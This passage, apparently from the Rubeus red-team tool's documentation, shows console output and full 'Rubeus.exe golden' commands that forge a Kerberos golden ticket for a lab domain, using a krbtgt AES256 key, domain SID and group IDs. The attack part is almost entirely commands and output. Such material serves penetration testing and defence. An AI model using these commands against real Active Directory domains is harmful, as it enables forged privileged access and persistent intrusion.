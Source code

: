     [*] Generating EncTicketPart
    [*] Signing PAC
    [*] Encrypting EncTicketPart
    [*] Generating Ticket
    [*] Generated KERB-CRED
    [*] Forged a TGT for 'harmj0y@rubeus.ghostpack.local'

    [*] AuthTime       : 29/07/2021 00:12:40
    [*] StartTime      : 29/07/2021 00:12:40
    [*] EndTime        : 29/07/2021 10:12:40
    [*] RenewTill      : 05/08/2021 00:12:40

    [*] base64(ticket.kirbi):

          doIFdTCCBXGgAwIBBaEDAgEWooIERDCCBEBhggQ8MIIEOKADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          dWJldXMuZ2hvc3RwYWNrLmxvY2Fs
    
    
    
    [*] Printing a command to recreate a ticket containing the information used within this ticket

    C:\Rubeus\Rubeus.exe golden /aes256:6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5 /user:harmj0y /id:1106 /pgid:513 /domain:rubeus.ghostpack.local /sid:S-1-5-21-3237111427-1607930709-3979055039 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1 /logoncount:16 /displayname:"Harm J0y" /netbios:RUBEUS /groups:513 /dc:PDC1.rubeus.ghostpack.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD,NOT_DELEGATED

Forging a TGT, explicitly setting everything on the command line:

    C:\Rubeus>Rubeus.exe golden /aes256:6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5 /user:harmj0y /id:1106 /pgid:513 /domain:rubeus.ghostpack.local /sid:S-1-5-21-3237111427-1607930709-3979055039 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1 /logoncount:16 /displayname:"Harm J0y" /netbios:RUBEUS /groups:513 /dc:PDC1.rubeus.ghostpack.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD,NOT_DELEGATED

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Build TGT

    [*] Building PAC

    [*] Domain         : RUBEUS.GHOSTPACK.LOCAL (RUBEUS)
    [*] SID            : S-1-5-21-3237111427-1607930709-3979055039
    [*] UserId         : 1106
    [*] Groups         : 513
    [*] ServiceKey     : 6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5
    [*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] KDCKey         : 6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5
    [*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] Service        : krbtgt
    [*] Target         : rubeus.ghostpack.local

    [*] Generating EncTicketPart
    [*] Signing PAC
    [*] Encrypting EncTicketPart
    [*] Generating Ticket
    [*] Generated KERB-CRED
    [*] Forged a TGT for 'harmj0y@rubeus.ghostpack.local'

    [*] AuthTime       : 29/07/2021 00:18:19
